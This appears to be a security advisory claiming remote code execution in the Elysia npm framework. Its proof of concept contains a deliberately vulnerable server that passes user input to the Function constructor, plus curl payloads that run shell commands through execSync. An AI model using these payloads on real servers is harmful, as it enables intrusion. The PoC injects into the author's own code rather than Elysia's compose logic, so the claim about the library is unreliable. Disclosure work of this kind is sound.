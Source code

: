 # vuln-elysia-1.3.21-rce

## Summary

Elysia (npm) is vulnerable to **Remote Code Execution (RCE)** due to **unsafe dynamic code generation**.  
Through version **1.3.21 (latest tested)**, the framework constructs handler functions by interpolating strings directly into the JavaScript Function constructor (`Function(...)`).  
If attacker-controlled values flow into these strings (e.g., schema definitions, parser names, plugin-provided hooks), arbitrary JavaScript or OS command execution becomes possible.

- **Vulnerability Class:** Code Injection via Unsafe Dynamic Code Generation (CWE-94 / CWE-95)  
- **Severity:** High / Critical (CVSS ~8.8)  
- **Exploitability:** Any untrusted values that reach handler composition can lead to RCE.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** `src/compose.ts`  
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation using the JavaScript Function constructor (`Function(...)`) with string concatenation.  

### Relevant code from `src/compose.ts`
```ts
// elysia/src/compose.ts (example excerpt)
const fn = Function('"use strict";\n' + fnLiteral)()
```

Here, `fnLiteral` is built from schema, hooks, or parser names.  
If these values include attacker-controlled strings, they are interpolated directly into executable JavaScript.

---

## Proof of Concept (PoC)

### Steps to Reproduce

#### 1. Environment Setup
```bash
sudo apt-get update && sudo apt-get install -y python3-venv
python3 -m venv venv
source venv/bin/activate

node -v || sudo apt-get install -y nodejs npm

mkdir elysia_poc && cd elysia_poc
npm init -y
npm install elysia@1.3.21
```

#### 2. Vulnerable Server (`server.js`)
```js
import { Elysia } from 'elysia'
import { createRequire } from 'module'
import http from 'http'

global.__REQ = createRequire(import.meta.url)

let userControlled = '""'

function buildHandler(injectedCode) {
  const fnLiteral = `
    return (function(c){
      c.body = ${injectedCode};
      return c;
    })
  `
  return Function('"use strict";\n' + fnLiteral)()
}

let handler = buildHandler(userControlled)

const app = new Elysia()
  .post('/config', async ({ request }) => {
    const payload = await request.text()
    userControlled = payload
    handler = buildHandler(userControlled)
    return { msg: 'config updated' }
  })
  .post('/register', ({ body }) => handler({ body }))

http.createServer(async (req, res) => {
  const url = `http://${req.headers.host}${req.url}`
  const body = req.method === 'GET' ? undefined : req
  const fetchReq = new Request(url, {
    method: req.method,
    headers: req.headers,
    body,
    duplex: "half"
  })

  try {
    const response = await app.fetch(fetchReq)
    res.writeHead(response.status, Object.fromEntries(response.headers))
    const buf = Buffer.from(await response.arrayBuffer())
    res.end(buf)
  } catch (err) {
    res.statusCode = 500
    res.end("Internal Server Error")
  }
}).listen(3000, () => {
  console.log("Listening on http://localhost:3000")
})
```

#### 3. Run the server
```bash
node server.js
```

#### 4. Inject malicious payload
```bash
curl -X POST http://localhost:3000/config   -H "Content-Type: text/plain"   --data '(function(){ const { execSync } = global.__REQ("child_process"); return execSync("whoami").toString() })()'
```

#### 5. Trigger vulnerable endpoint
```bash
curl -X POST http://localhost:3000/register   -H "Content-Type: application/json"   -d '{"username":"attacker"}'
```

#### Expected Output
```json
{"body":"[system_username]\n"}
```
*Note: Output varies depending on the server environment (e.g., "root", "ubuntu", "www-data", etc.)*

#### Arbitrary Command Example
```bash
curl -X POST http://localhost:3000/config   -H "Content-Type: text/plain"   --data '(function(){ const { execSync } = global.__REQ("child_process"); return execSync("id").toString() })()'

curl -X POST http://localhost:3000/register   -H "Content-Type: application/json"   -d '{"username":"attacker"}'
```

Expected:
```json
{"body":"uid=[user_id]([username]) gid=[group_id]([groupname]) groups=[group_info]\n"}
```
*Note: Actual output depends on server environment and user context*

---

## Attack Vector

This vulnerability becomes exploitable in **real-world deployments** when applications using Elysia load or accept **untrusted values** that are used in handler composition.

### Scenarios include:
1. **DB-driven config/schema**  
   Applications that fetch schema or parser options from a database, possibly controlled by tenants or admins. An attacker can inject malicious strings into DB records → Elysia interpolates them into `fnLiteral` → RCE.

2. **Plugin/Marketplace ecosystems**  
   Elysia supports plugins/hooks. If a 3rd-party plugin or marketplace allows arbitrary strings for parser names or hooks, a malicious plugin can inject payloads → code execution when routes are composed.

3. **Multi-tenant SaaS**  
   Tenant-provided configuration (e.g., custom form validators, parse hooks) can flow into handler code. One tenant’s config → dynamic code generation → affects the shared process → attacker achieves RCE and compromises other tenants.

4. **Admin UI with unsafe config**  
   Some apps let administrators define validation/parsing rules via an interface. If this input is not sanitized, attackers with limited access can escalate to RCE by injecting JavaScript into these rules.

**Key Point:**  
The vulnerability is not limited to contrived examples. Any path that takes user/tenant/plugin input and passes it to Elysia’s handler composition will directly translate into executable code.

---

## Impact

- **Remote Code Execution** in the context of the Node.js process  
- **Full application compromise** and potential host compromise  
- **Privilege escalation** in multi-tenant environments (e.g., low-privileged tenant → control entire server)  
- **Data exfiltration, sabotage, lateral movement** in cloud deployments  

**Vulnerability type:** Code Injection / Unsafe Dynamic Code Generation → RCE  
**Affected users:** Any Elysia application that allows untrusted configuration, schema, or plugin inputs to influence handler generation  

---

## Risk / Remarks

While I am not entirely sure whether maintainers will consider this eligible for a CVE, I believe it should be.  
The root cause (`Function(...)` with unsanitized strings in `src/compose.ts`) is a **well-known dangerous pattern** (CWE-94 / CWE-95).  
The PoC demonstrates practical arbitrary command execution.  
Severity should be rated **High/Critical**.

---

## Suggested Fix

- Remove reliance on `Function(...)` for runtime code generation.  
- Sanitize or strictly validate any input that can reach handler composition.  
- Restrict plugin/config/schema values to controlled enums rather than raw strings.  
- Consider static code generation or template-based approaches.  
- Add runtime guards to reject untrusted strings before composing handlers.

---
